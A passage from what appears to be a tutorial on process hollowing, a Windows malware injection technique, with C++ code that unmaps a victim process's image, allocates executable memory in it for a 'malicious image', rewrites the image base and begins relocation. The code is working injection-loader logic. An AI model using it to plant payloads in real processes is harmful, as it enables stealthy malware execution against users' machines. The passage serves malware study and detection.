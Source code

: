 Next, we check if we need to unmap the target or not. Unmapping should happen when the target image base (which is where the victim's executable is at in its virtual memory) equals to the desired image base. If our desired image base is different from the target image base, there is no need for mapping because we can just change the victim's process's entry point to our desired image base address without needing to hollow out the existing executable.


``` cpp
if (unmapTarget || (DWORDLONG)dwTargetImageBase == dwlDesiredBase) {
    // Unmap if specify unmapTarget or desiredBase is the same as targetimagebase
    if (_NtUnmapViewOfSection(processInfo.hProcess, (PVOID)dwTargetImageBase) != ERROR_SUCCESS) {
        printf("Unmapping target fail\n");
        TerminateProcess(processInfo.hProcess, 1);
        return FALSE;
    }
}
```


The final step of unmapping is that we need to allocate a big enough buffer to store our malicious image in the virtual address space of the victim. We know that we need to allocate from the desired base address, so this is just a simple call to **VirtualAllocEx**

``` cpp
// allocate virtual space most suitable for payload
LPVOID lpRemoteAddress = VirtualAllocEx(
    processInfo.hProcess,
    (LPVOID)dwlDesiredBase,
    imageSize,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE  // need to be able to write to and execute this page
);

if (!lpRemoteAddress) {
    printf("Can't allocate memory in remote process\n");
    TerminateProcess(processInfo.hProcess, 1);
    return FALSE;
}

// change image base in file headers to the newly allocated region
pNtHeaders->OptionalHeader.ImageBase = static_cast<DWORD>((ULONGLONG)lpRemoteAddress);
```


We also need to change the image base in the malicious file buffer to the newly allocated remote buffer address. This is for the linker to correctly load and execute the executable once we write it into this memory address.


### V. Relocation


Before relocating, we should prepare the image in our local memory so it is easier to edit, write to, and apply relocations. Afterward, we can just copy it into the remote memory space.


``` cpp
LPVOID lpLocalAddress = VirtualAlloc(
    NULL, // null because we are allocating in local virtual space
    imageSize,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE
);

if (!lpLocalAddress) {
    printf("Can't allocate memory in local process\n");
    TerminateProcess(processInfo.hProcess, 1);
    return FALSE;
}
```